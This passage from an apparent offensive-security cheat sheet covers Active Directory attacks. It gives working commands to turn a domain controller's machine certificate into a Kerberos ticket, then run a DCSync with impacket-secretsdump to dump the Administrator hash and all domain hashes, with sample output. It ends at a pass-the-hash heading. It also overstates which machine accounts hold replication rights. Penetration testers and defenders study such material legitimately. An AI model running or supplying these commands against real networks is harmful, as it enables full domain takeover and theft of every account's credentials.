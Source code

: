 ### TGT Generation from Certificate
```bash
# Generate TGT using machine certificate
python3 gettgtpkinit.py -cert-pfx DC01\$.pfx -dc-ip DC_IP 'domain.local/dc01$' /tmp/dc.ccache

# Expected output:
# Loading certificate and key from file
# Requesting TGT
# AS-REP encryption key (you might need this later):
# [HEX_KEY]
# Saved TGT to file

# Export TGT for use
export KRB5CCNAME=/tmp/dc.ccache

# Verify ticket
klist
```

## 💎 DCSync Attack with Machine Account

### Machine Account Privileges
Machine accounts in Active Directory have:
- **Replication privileges** by default
- **DCSync capability** (DRSUAPI access)
- **High privileges** for domain operations
- **No interactive logon restrictions**

### Execute DCSync
```bash
# DCSync Administrator account
impacket-secretsdump -k -no-pass -dc-ip DC_IP -just-dc-user Administrator 'DOMAIN.LOCAL/DC01$'@DC01.DOMAIN.LOCAL

# Expected output:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:NTHASH:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:AES256_KEY
```

### Full Domain Dump (Optional)
```bash
# Extract all domain hashes
impacket-secretsdump -k -no-pass -dc-ip DC_IP -just-dc 'DOMAIN.LOCAL/DC01$'@DC01.DOMAIN.LOCAL
```

## 👑 Administrative Access via Pass-the-Hash
